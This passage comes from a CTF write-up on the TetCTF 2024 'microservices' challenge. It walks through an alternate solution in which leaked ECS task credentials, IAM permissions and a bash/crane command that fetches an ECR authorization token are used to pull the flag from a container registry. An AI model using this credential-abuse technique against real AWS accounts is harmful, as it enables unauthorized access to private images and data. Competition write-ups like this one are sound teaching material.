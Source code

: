 ## 

Alternate Solution[](https://ctf.edwinczd.com/2024/tetctf-2024/microservices#alternate-solution)

However, after the CTF and discussion in the #web channel, securisec shared his solution, which really make much more sense.

![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2FTMYJsyfICtSyhbTgwUdW%2Fimage.png?alt=media&token=38342623-578c-4a51-8175-0a3915d10905)

![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2F8vw0kSPE9lCgDUHl73xS%2Fimage.png?alt=media&token=00635463-2ddd-4f23-99e3-3535f6525d49)

![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2FIDZQvb1FmeyaX5JV2cxP%2Fimage.png?alt=media&token=b8d339e0-95eb-42ff-be8e-3a59073f441b)

So lets try to follow securisec method and get the flag from the ECR instead!

First, i removed the RCE command in my overrides.json, and get the keys from the log stream.
```
{

"executionRoleArn": "arn:aws:iam::543303393859:role/TetCtf2Stack-EcsExecutionRoleFD93B7A2-O8bY2QagMK25",

"taskRoleArn": "arn:aws:iam::543303393859:role/TetCtf2Stack-CtfTaskDefTaskRoleD17F896A-vJxGKfIFhChH"

}
```
![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2FtSxsZR4HAGsTjrEUqoSp%2Fimage.png?alt=media&token=b7316807-7901-4545-9a85-029456bac84c)

From the RunTask output, we also get the ECR URL.

![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2FHmKkHsGRcC4tEeTEYz1J%2Fimage.png?alt=media&token=610bd05c-68b3-4774-9fba-c7ea692e4ff3)

Again, a quick sanity check to see if the credentials is working properly.

![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2F1vJ5AWjW7TdkKWAHaB72%2Fimage.png?alt=media&token=965c91e5-a02a-479a-8a38-f911e2f58020)

​

Quick recap on the relevant permission
```
{
"Action": [
    "ecr:BatchCheckLayerAvailability",
    "ecr:BatchGetImage",
    "ecr:GetAuthorizationToken",
    "ecr:GetDownloadUrlForLayer",
    "logs:CreateLogStream",
    "logs:PutLogEvents"
],
"Resource": "*",
"Effect": "Allow"
}
```
I wrote a quick bash script to authenticate with the token.
```bash
token=$(aws ecr get-authorization-token --profile fargate --output json | jq -r '.authorizationData[0].authorizationToken' | base64 -d | cut -d ":" -f 2)

crane auth login 543303393859.dkr.ecr.eu-west-2.amazonaws.com --username AWS --password $token
```
![](https://324136204-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FzSO6zKRtEPX2coPJBU8f%2Fuploads%2FScqZkLOcyE6NMQejF0B0%2Fimage.png?alt=media&token=ed9095eb-5b8f-41f2-af2e-bad344f3f828)
